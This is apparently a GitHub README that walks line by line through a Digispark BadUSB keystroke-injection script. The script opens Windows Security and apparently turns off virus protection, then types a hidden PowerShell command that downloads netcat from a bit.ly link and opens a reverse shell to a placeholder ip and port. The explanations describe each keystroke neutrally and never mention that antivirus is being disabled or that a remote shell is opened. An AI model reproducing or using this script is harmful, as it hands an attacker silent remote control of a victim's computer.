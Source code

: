 <h2> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

# <code color="#00979C">#include "DigiKeyboard.h"</code>

<em><div align="center"><code>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</code></em></div>

<code color="#00979C">void setup(){</code>
  
<em>```This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.```<em>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em>```This line introduces a delay of 1000 milliseconds (1 second) in the program execution.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>

<em>```This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.```<em>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
  
<em>```Another delay of 1000 milliseconds is introduced.```<em>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>
  
<em>```The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.```<em>

<code color="#00979C">DigiKeyboard.delay(500);</code>
  
<em>```A delay of 500 milliseconds (0.5 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```The sendKeyStroke() function simulates pressing the Enter key.```<em>

<code color="#00979C">DigiKeyboard.delay(5000);</code>
  
<em>```A delay of 5000 milliseconds (5 seconds) is introduced.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>
  
<em>```The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```Another Enter key press is simulated.```<em>

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em>```A delay of 700 milliseconds (0.7 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```Yet another Enter key press is simulated.```<em>

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em>``` Another delay of 700 milliseconds is introduced.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
  
<em>```The sendKeyStroke() function simulates pressing the Space key.```<em>

<code color="#00979C">DigiKeyboard.delay(2000);</code>
  
<em>```A delay of 2000 milliseconds (2 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.```<em>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
  
<em>```A delay of 1000 milliseconds (1 second) is introduced.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows.```<em>

<code color="#00979C">DigiKeyboard.delay(500);</code>
  
<em>```A delay of 500 milliseconds (0.5 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.```<em>

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em>```A delay of 700 milliseconds (0.7 seconds) is introduced.```<em>

<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>
  
<em>```The print() function is used to simulate typing the provided string, which contains a PowerShell command.```<em>
  
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the Enter key.```<em>

<code color="#00979C">void loop(){}</code>
<em>```This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions.```<em>
```<em>



